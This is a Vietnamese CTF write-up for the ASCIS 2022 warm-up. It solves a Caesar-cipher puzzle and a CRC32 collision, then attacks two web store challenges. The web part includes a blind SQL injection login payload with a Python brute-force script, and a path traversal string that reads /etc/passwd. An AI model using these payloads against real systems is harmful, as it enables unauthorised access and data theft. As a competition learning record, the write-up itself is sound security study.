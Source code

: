 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# ASCIS 2022 - warm up

## Crypto

### I came, I saw, I conquered

#### chall

```
jhlzhy dhz h wvspapjphu huk nlulyhs vm aol shal yvthu ylwbispJ, dov nylhasf lealuklk aol yvthu ltwpyl ilmvyl zlpgpun wvdly huk tHrpun optzlsm kpjahavy vm yvtl, whcpun aol dhf mvy aol ptwlyphs zfzalt.

qbspbz jhlzhy dhz ivyu pu yvtL vu 12 vy 13 qbsf 100 ij puav aol wylzapnpvbz qbsphu jshu. opz mhtpsf dlyl jsvzlsf jvuuljalk dpao aol thyphu mhjapvu pu yvthu wvspapjz. jhlzhy optzlsm wyvnylzzlk dpaopu aol yvthu wvspapjhs zfzalt, iljvtpun pu zbjjlzzpvu xbhlZavy (69), hlkpsl (65) huk wyhlavy (62). pu 61-60 ij ol zlyclk hz nvclyuvy vm aol yvtHu wyvcpujl vm zwhpu. ihjr pu yvtl pu 60, jhlzhy thkl h whja dpao wvtwlf huk jyhzzbz, dov olswlk opt av nla lsljalk hz jvuzbs mvy 59 ij. aol mvssvdpun flhy ol dhz hwwvpualk nvclyuvy vm yvthu nhbs dolyl ol zahflk mvy lpnoa flhyz, hkkpun aol dovsl vm tvklYu myhujl huk ilsnpbt av aol yvthu ltwpyl, huk thrPun yvtl zhml myvt aol wvzzpipspaf vm nhsspj puchzpvuz. ol thkl adv lewlkpapvuz av iYpahpu, pu 55 ij huk 54 ij.

jhlzhy aolu yLabyulk av pahsf, kpzylnhykpun aol Hbaovypaf vm aol zluhal huk mhtvbzsf jyvzzpun aol ybipjvu ypcly dpaovba kpzihukpun opz hytf. pu aol luzbpun jpcps dhy jhlzhy klmlhalk aol ylwbispjhu mvyjlz. wvtwlf, aolpy slhkly, mslk av lnfwa dolyl ol dhz hzzhzzpuhalk. jhlzhy mvssvdlk opt huk iljhtl yvthuapjhSsf pucvsclk dpao aol lnfwaphu xbllu, jslvwhayh.

jhlzhy dhz uvd thzaly vm yvtl huk thkl optzlsm jvuzbs huk kpjahavy. ol bzlk opz wvdly av jhyyf vba tbjo-ullklk ylmvyt, ylsplcpun klia, lushynpun aol zluhal, ibpskpun aol mvybt pbspbt huk ylcpzpun aol jhslukhy. kpjahavyzopw dhz hsdhfz ylnhyklk h altwvyhyf wvzpapvu iba pu 44 ij, jhlzhy avvr pa mvy spml. opz zbjjlzz huk htipapvu hspluhalk zayvunsf ylwbispjhu zluhavyz. h nyvbw vm aolzl, slk if jhzzpbz huk iybabz, hzzhzzpuhalk jhlzhy vu aol pklz (15) vm thyjo 44 ij. aopz zwhyrlk aol mpuhs yvbuk vm jpcps dhyz aoha luklk aol ylwbispj huk iyvbnoa hivba aol lslchapvu vm jhlzhy'z nylha ulwold huk klzpnuhalk olpy, vjahcphu, hz hbnbzabz, aol mpyza ltwlyvy.
```

#### Work-flow

* Brute Decryt Caesar -> với key bằng 7 ta có được plaintext
* Để ý các chữ cái viết hoa
* Viết một đoạn script ngắn nối chúng lại

#### solve

```python
f = open("cipher.txt", "r")
cipher = f.read()
import string 
alpha = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"
for i in cipher: 
	if i == i.upper() and i in alpha :
		print(i, end="")
```

### Checksum

#### Chall

```python
import binascii

FLAG = 'ASCIS{XXXXXXXXXXX}'

def check_key(passwd):
    if len(passwd) < 16:
        return False
    if binascii.crc32(passwd.encode()) != binascii.crc32(FLAG.encode()):
        return False
    return True

password = input('What is the password?: ')
if check_key(password):
    print('Correct! Here is the flag: ' + FLAG)
else:
    print('Sorry! This is the hash we want:' + str(hex(binascii.crc32(FLAG.encode()))))
```



#### Work-flow

* Từ code ta phân tích được cần tìm một chuỗi có crc32 trùng với crc32 của FLAG
* Lúc này ta nhập bừa trước để có crc32 của flag
* Nhập thử nhiều lần để chắc rằng flag không bị refresh

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* Đến đây ta decode hex và tìm được crc32 cần phải có là: **1706263782**

Lúc mới vào nhìn bài 1 mình hơi phân vân nên có nhảy sang bài 2 scout trước, ai ngờ đề có lỗi do không có trường hợp else để ra dạng crc32 của FLAG, lúc đó mình hơi hoảng và tư duy theo hướng brute force như thế nào?

Search quanh một xíu được vài tài liệu hay ho, chuẩn bị bắt tay vào code ... thì BTC fix lại đề, cập nhập thêm vế else uiiii thiên thời địa lợi nhân hòa, đến đây thì như cá gặp được nước rồi :)).

* Mình tìm được được doc [<mark style="color:blue;">này</mark>](https://github.com/fyxme/crc-32-hash-collider)<mark style="color:blue;"></mark>
* Người ta đã code sẳn tool rồi việc còn lại là đổi số **target** và **length** string cần tìm

```
const target = 1706263782 & 0xffffffff

// max string length
maxLen := 16
```

#### solve

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Lúc brute tool này thì cơ bản xem máy nào mạnh hơn thôi</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Lâu lâu hóa chaos được lần </p></figcaption></figure>

* Kỉ niệm lâu lâu được lần solve thứ 2 :smile:

## WEB

### AscisStore1

#### chall

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Trang web bán hàng có chức năng login và register</p></figcaption></figure>

#### Work-flow

* Chọt phá dòng quanh -> khai thác SQLI ở login
* Thử với username như sau (có khoảng trắng ở sau dấu comment -- )

```
' or ord(substring(password,1,1)) = 65 --  
```

* Lúc này nhận thấy server trả về với user **`flag`**

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Như vậy có thể đoán được password của user flag chính là secret cần tìm
* Lúc này ta chỉnh lại query userser cho đúng với target, để tránh brute force sai

```
flag' and ord(substring(password,{index},1)) = {char} -- 
```

* and ở đây để cố định password cho username đã biết là flag
* nếu dùng or như ở trên sẽ dẫn đến trường hợp kết quả password query được chính là của toàn bộ database -> brute sai

#### solve

```python
import request

url = "http://34.143.158.202:4111/index.php?page=login"
#SELECT * from users WHERE username='flag' AND password = 'ord(substring(password,{index},1)) = {char} -- '

def solve():
	index = 1
	flag = ""
	while True:
		for char in range(32,128):
			usernamefield = f"flag' and ord(substring(password,{index},1)) = {char} -- "
			print(chr(char))
			passwordfield = "a"
			postParam = {'username': usernamefield, 'password': passwordfield}
			response = requests.post(url, data=postParam)
			if "flag" in response.text:
				flag += chr(char)
				print("index:",index,"  ", flag )
				index +=1
				break
		if flag.endswith("}"):
			break


solve()py
#index: 23    ASCIS{SQ11-I5-t0o-EA$Y}
```

### AscisStore2

#### Chall

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>web bán hàng tương tự bài trên nhưng có chức năng profile</p></figcaption></figure>

#### Work-flow

* Chấm mút quanh chức năng mới -> chức năng profile cho đăng ảnh lên
* Rất có khả năng là File up load to RCE hoặc path travesal
* Up thử tấm ảnh nyc lên :

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Sau khi up lên ta thấy path trong đó có file image.php thì không còn nghi ngờ gì nữa -> path traversal for sure

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

#### solve

* Lần theo path rồi thử mọi cách path traversal thoi, chân ái is here:

```
....//....//....//....//....//....//....//....//....//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Lời thú tội của một đá thủ

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Top 10 khu vực miền nam</p></figcaption></figure>

> Gửi lời cảm ơn chân thành nhất đến với các người ae trong team
>
> Lâu rồi mới có cảm giác thú vị như những ngày đầu tiên tham gia CTF
>
> 4 tiếng thi đấu - Một ngày vui và học được nhiều thứ, đến lúc lui về ở ẩn rồi
>
> Cảm ơn ae.



Thanks for reading. Have a good day :heart: !
